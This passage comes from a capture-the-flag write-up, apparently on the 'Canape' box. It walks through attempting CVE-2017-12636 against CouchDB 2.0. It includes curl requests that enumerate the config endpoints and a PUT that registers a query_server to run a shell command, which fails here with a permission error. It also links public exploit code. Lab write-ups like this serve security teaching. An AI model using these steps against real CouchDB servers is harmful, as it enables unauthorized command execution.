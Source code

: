 ```
root@canape:/home/homer/etc# kill 711
root@canape:/home/homer/etc# ps aux | grep runsrv
root       2031  0.0  0.0  14224   980 pts/2    S+   18:09   0:00 grep --color=auto runsrv
```

And, on restart, runs the OS\_Daemons:

```
root@canape:/home/homer/etc# ls /tmp/0xdf
/tmp/0xdf
```

### **Successful Attempt Via CVE-2017-12636 with local.ini write permissions**

CVE-2017-12636 allows for code execution through the couchdb process. However, it won’t work in this configuration.

There are a few POCs out there as reference:

* [https://raw.githubusercontent.com/vulhub/vulhub/master/couchdb/CVE-2017-12636/exp.py](https://raw.githubusercontent.com/vulhub/vulhub/master/couchdb/CVE-2017-12636/exp.py)
* [https://www.exploit-db.com/exploits/44913/](https://www.exploit-db.com/exploits/44913/)

We’d need to write a new query\_server, and then invoke that. When Canape was released, most of the POCs were for couchdb 1.x, but this box is running 2, so the query\_servers path from most of the POCs doesn’t exist. That’s changed now, but we’ll walk the same steps. First, get the version, and show that the 1.X path doesn’t exist:

```bash
www-data@canape:/var/www/git$ curl http://localhost:5984
{"couchdb":"Welcome","version":"2.0.0","vendor":{"name":"The Apache Software Foundation"}}

www-data@canape:/var/www/git$ curl http://0xdf:df@localhost:5984/_config/query_servers/
{"error":"not_found","reason":"Database does not exist."}
```

Update with the new path for 2.0:

```bash
www-data@canape:/var/www/git$ curl 'http://0xdf:df@localhost:5984/_membership'
{"all_nodes":["couchdb@localhost"],"cluster_nodes":["couchdb@localhost"]}

www-data@canape:/var/www/git$ curl http://0xdf:df@localhost:5984/_node/couchdb@localhost/_config/query_servers
{"coffeescript":"./bin/couchjs ./share/server/main-coffee.js","javascript":"./bin/couchjs ./share/server/main.js"}
```

From there, we should add a query\_server and then invoke it, but we aren’t able to.

```bash
www-data@canape:/var/www/git$ curl -X PUT 'http://0xdf:df@localhost:5984/_node/couchdb@localhost/_config/query_servers/cmd' -d '"/sbin/ifconfig > /tmp/df"'
{"error":"badmatch","reason":"{badrpc,{'EXIT',{{{badmatch,{error,eacces}},\n                  [{config_writer,save_to_file,2,\n                                  [{file,\"src/config_writer.erl\"},{line,38}]},\n                   {config,handle_call,3,[{file,\"src/config.erl\"},{line,222}]},\n                   {gen_server,try_handle_call,4,\n                               [{file,\"gen_server.erl\"},{line,629}]},\n                   {gen_server,handle_msg,5,\n                               [{file,\"gen_server.erl\"},{line,661}]},\n                   {proc_lib,init_p_do_apply,3,\n                             [{file,\"proc_lib.erl\"},{line,240}]}]},\n                 {gen_server,call,\n                             [config,\n                              {set,\"query_servers\",\"cmd\",\n                                   \"/sbin/ifconfig > /tmp/df\",true,nil}]}}}}","ref":1617834159}
```
